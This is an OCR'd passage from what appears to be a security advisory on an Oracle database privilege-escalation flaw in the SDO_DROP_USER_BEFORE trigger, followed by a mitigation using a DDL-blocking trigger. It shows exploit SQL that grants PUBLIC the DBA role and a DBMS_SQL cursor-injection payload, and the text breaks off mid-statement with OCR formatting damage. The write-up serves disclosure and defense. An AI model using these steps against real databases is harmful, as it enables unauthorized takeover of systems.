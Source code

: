 `SQL> INSERT INTO SYSTEM.OL$ (OL_NAME) VALUES ('OWNED!'); `
`In the trigger `
` `
`1 row created. `

With the trigger having fired, PUBLIC should now have DBA privileges and
we should be able to set the role:

`SQL> SET ROLE DBA; `
` `
`Role set. `

And thus the SDO_DROP_USER_BEFORE trigger vulnerability can be
exploited by a user that does not have the CREATE PROCEDURE privilege.

## Risk Mitigation

What can be done to help prevent this being used as an attack method?
Revoking the PUBLIC execute permission from DBMS_SQL, whilst it is an
option, is not advised. There are around 170 objects that depend on
DBMS_SQL and revoking the PUBLIC execute permission could invalidate a
large number of these dependencies. One useable possibility is to limit
who can do what in terms of DDL using a trigger. Assuming the only users
on a particular database server that should be executing GRANT, CREATE
or ALTER are "SYS", "JIM" and "JANE" then the following trigger could be
created:

` CREATE OR REPLACE TRIGGER PREVENT_DDL BEFORE DDL ON DATABASE `
` DECLARE `
`    V_USER VARCHAR(30); `
` BEGIN `
`    V_USER := SYS_CONTEXT('USERENV','SESSION_USER'); `
` `
`    IF V_USER != 'SYS' AND V_USER != 'JIM' AND V_USER !='JANE' THEN `
`            RAISE_APPLICATION_ERROR(-20002,'USER ' `

| | V_USER | | ' MAY NOT EXECUTE DDL');

`    END IF; `
` END; `
` / `

If we now retry the attack the trigger will prevent us:

`SQL> CONNECT CSESS/PASSWORD `
`Connected. `
`SQL> SET SERVEROUTPUT ON `
`SQL> DECLARE `
`  2  MY_CURSOR NUMBER; `
`  3  RESULT NUMBER; `
`  4  BEGIN `
`  5     MY_CURSOR := DBMS_SQL.OPEN_CURSOR; `
`  6     DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin execute immediate `*`create``
 ``or``   ``replace``   ``function``   ``csess_func``   ``(p``
 ``varchar2)``   ``return``   ``number``   ``authid``
 ``current_user``   ``is``   ``begin``   ``execute``   ``immediate``
 ``p;``   ``return``   ``1;``
 ``end;`*`; commit; end;',0);   7     DBMS_OUTPUT.PUT_LINE('Cursor value is :' `
